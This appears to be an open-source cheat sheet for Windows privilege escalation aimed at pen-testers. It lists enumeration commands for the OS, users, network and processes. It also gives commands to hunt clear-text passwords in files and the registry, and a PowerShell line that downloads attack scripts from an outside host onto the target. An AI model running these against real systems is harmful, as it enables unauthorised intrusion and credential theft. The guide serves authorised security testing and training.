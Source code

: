 # About this document
This document is an open source markdown document that can be contributed to via github.
If you see a typo, a bug or a mistake, an improvment, or a vector that we've missed please send me a pull request to the master brunch via the 
[repo link](https://github.com/AddaxSoft/OSWindowsPrivEscalation) and I will review it and approve if approperiate asap.

This document is meant for pen-testers, red teams, and the like.

** Needless to state: You're responosible for what you're doing :-)

# Contributors
- AK | Author and Maintainer [amAK.xyz](https://imAK.xyz), [@xxByte](https://twitter.com/xxByte)
- You | Your Contribution [yourTwitter](https://twitter.com/xxByte)

------
Let's get to it!

# OS Enumurations
In this stage you want to learn as much as possible about the operating system.
Note any odd things and investigate them until you hit a dead-end, then do the next thing.

## Windows Version and Configuration
What Windows is it, what version?

    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

What architecture? x86 or x64?

    wmic os get osarchitecture
    echo %PROCESSOR_ARCHITECTURE%

List all env variables

    set
    
## Users Enumuration
Get current username

    echo %USERNAME%
    whoami

List all users 

    net user
    whoami /all

List logon requirments; useable for bruteforcing

    net accounts

Get details about a user (i.e. administrator, admin, current user)

    net user administrator
    net user admin
    net user %USERNAME%

List all local groups

    net localgroup 

Get details about a group (i.e. administrators)

    net localgroup administrators


## Network Enumuration
You will want to know how this host is connected; what kind of protocls and services are running, and finally maybe even tap into one of the interfaces and learn what's going on


List all network interfaces

    ipconfig /all

List current routing table

    route print

List the ARP table

    arp -A

List all current connections

    netstat -ano

List firware state and current configuration

    netsh advfirewall firewall dump

List all network shares

    net share

# Looting any clear text passwords
Many admins will store clear-text passwords on the file system. Your target is usually xml, txt, xls files that have the word pass/password on them.

## Searching in files
Quick peek into common password files

note: If you found encrypted contents; decrypt them with gpprefdecrypt.py
encoded passwords are decoded using base64

    TYPE c:\sysprep.inf
    TYPE c:\sysprep\sysprep.xml
    TYPE %WINDIR%\Panther\Unattend\Unattended.xml
    TYPE %WINDIR%\Panther\Unattended.xml

Search for file contents

    cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt

Search for a file with a certain filename

    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

## Searching in Registery
Search the registery for key names

    REG QUERY HKLM /F "password" /t REG_SZ /S /K
    REG QUERY HKCU /F "password" /t REG_SZ /S /K
    
Search the registery for any clear text passwords in key values

note: value of each key will be printed out too

    REG QUERY HKLM /F "password" /t REG_SZ /S
    REG QUERY HKCU /F "password" /t REG_SZ /S

Read a vlue of a certain sub key

    REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList


## Processes Enum
What processes are running?

    tasklist /v

Which processes are running as "system"

    tasklist /v /fi "username eq system"

# Backdoors
You've learned as much as you can about the system, now you will need to upload files to it for executing local exploits or running scripts that can enumirate services, schedules, and find weakness better than you.

## Do you have powershell magic?

    REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion

## wget via PowerShell

    powershell -Noninteractive -NoProfile -command "wget https://addaxsoft.com/download/wpecs-scripts.zip -UseBasicParsing -OutFile scripts.zip"

-----

# Special Thanks & Original Inspirations 
- This document wouldn't be here if I didn't get some inspirations:
  - fuzzysecurity's ultimate guide for Windows Privilge escalation, which can be found under this [link](http://www.fuzzysecurity.com/tutorials/16.html).
  - g0tmi1k's Basic Linux Privilege Escalation which can be found under this [link](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
  - Peter Kim's Hackers Playbook 2 - Zero to Hero section [link](http://thehackerplaybook.com/dashboard/)
- Offensive Security, which pushed me really hard beyod my limitations during the many hours of training. 
